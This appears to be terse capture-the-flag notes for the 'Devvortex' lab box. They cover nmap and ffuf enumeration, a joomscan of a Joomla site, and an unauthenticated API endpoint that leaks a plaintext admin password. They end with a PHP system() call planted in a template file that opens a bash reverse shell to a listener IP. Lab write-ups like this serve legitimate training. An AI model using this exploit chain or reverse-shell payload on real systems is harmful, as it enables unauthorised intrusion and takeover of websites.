 [[Devvortex]]

```
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fs 154 
	dev
```
open dev.devvortex.htb
open wappalyzer
cms : joomla
install joomscan
```
joomscan -u http://dev.devvortex.htb/
	[+] admin finder
	[++] Admin page : http://dev.devvortex.htb/administrator/
	
	[+] Checking robots.txt existing
	[++] robots.txt is found
	path : http://dev.devvortex.htb/robots.txt 
	
	Interesting path found from robots.txt
	http://dev.devvortex.htb/joomla/administrator/
	http://dev.devvortex.htb/administrator/
	http://dev.devvortex.htb/api/
	http://dev.devvortex.htb/bin/
	http://dev.devvortex.htb/cache/
	http://dev.devvortex.htb/cli/
	http://dev.devvortex.htb/components/
	http://dev.devvortex.htb/includes/
	http://dev.devvortex.htb/installation/
	http://dev.devvortex.htb/language/
	http://dev.devvortex.htb/layouts/
	http://dev.devvortex.htb/libraries/
	http://dev.devvortex.htb/logs/
	http://dev.devvortex.htb/modules/
	http://dev.devvortex.htb/plugins/
	http://dev.devvortex.htb/tmp/
```
open /administrator => login page
search exploit => [exploit](https://www.exploit-db.com/exploits/51334)
	/api/index.php/v1/users?public=true
	/api/index.php/v1/config/application?public=true
		name : lewis
		password : P4ntherg0t1n5r3c0n##
login => system => site templates => cassiopeia => error.php
```bash
system("bash -c 'bash -i >& /dev/tcp/10.10.14.121/9001 0>&1'");
```
open dev.devvortex.htb/templates/cassiopeia/error.php // don't forget to run nc listener